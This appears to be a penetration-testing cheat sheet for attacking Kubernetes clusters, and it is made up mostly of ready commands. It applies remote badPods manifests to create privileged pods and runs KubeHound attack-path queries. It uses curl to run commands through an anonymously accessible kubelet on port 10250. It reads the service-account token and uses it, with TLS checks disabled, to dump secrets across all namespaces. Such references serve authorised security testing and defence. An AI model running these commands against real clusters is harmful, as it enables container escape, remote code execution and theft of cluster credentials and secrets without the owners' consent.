 # Container - Kubernetes

> Kubernetes, often abbreviated as K8s, is an open-source container orchestration platform designed to automate the deployment, scaling, and management of containerized applications

## Summary

- [Tools](#tools)
- [Exploits](#exploits)
    - [Accessible kubelet on 10250/TCP](#accessible-kubelet-on-10250tcp)
    - [Obtaining Service Account Token](#obtaining-service-account-token)
- [References](#references)

## Tools

* [BishopFox/badpods](https://github.com/BishopFox/badpods) - A collection of manifests that will create pods with elevated privileges.
    ```ps1
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv/pod/priv-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/pod/hostpath-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/pod/hostpid-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml
    ```
* [serain/kubelet-anon-rce](https://github.com/serain/kubelet-anon-rce) - Executes commands in a container on a kubelet endpoint that allows anonymous authentication
* [DataDog/KubeHound](https://github.com/DataDog/KubeHound) - Kubernetes Attack Graph
    ```ps1
    # Critical paths enumeration
    kh.containers().criticalPaths().count()
    kh.containers().dedup().by("name").criticalPaths().count()
    kh.endpoints(EndpointExposure.ClusterIP).criticalPaths().count()
    kh.endpoints(EndpointExposure.NodeIP).criticalPaths().count()
    kh.endpoints(EndpointExposure.External).criticalPaths().count()
    kh.services().criticalPaths().count()

    # DNS services and port
    kh.endpoints(EndpointExposure.External).criticalPaths().limit(local,1)
    .dedup().valueMap("serviceDns","port")
    .group().by("serviceDns").by("port")
    ```

## Exploits

### Accessible kubelet on 10250/TCP

Requirements:
* `--anonymous-auth`: Enables anonymous requests to the Kubelet server

* Getting pods: `curl -ks https://worker:10250/pods`
* Run commands: `curl -Gks https://worker:10250/exec/{namespace}/{pod}/{container} -d 'input=1' -d 'output=1' -d'tty=1' -d 'command=ls' -d 'command=/'`


### Obtaining Service Account Token

Token is stored at `/var/run/secrets/kubernetes.io/serviceaccount/token`

Use the service account token:
* on `kube-apiserver` API: `curl -ks -H "Authorization: Bearer <TOKEN>" https://master:6443/api/v1/namespaces/{namespace}/secrets`
* with kubectl: ` kubectl --insecure-skip-tls-verify=true --server="https://master:6443" --token="<TOKEN>" get secrets --all-namespaces -o json`


## References

* [Attacking Kubernetes through Kubelet - Withsecure Labs- 11 January, 2019](https://labs.withsecure.com/publications/attacking-kubernetes-through-kubelet)
* [kubehound - Attack Reference](https://kubehound.io/reference/attacks/)
* [KubeHound: Identifying attack paths in Kubernetes clusters - Datadog - October 2, 2023](https://securitylabs.datadoghq.com/articles/kubehound-identify-kubernetes-attack-paths/)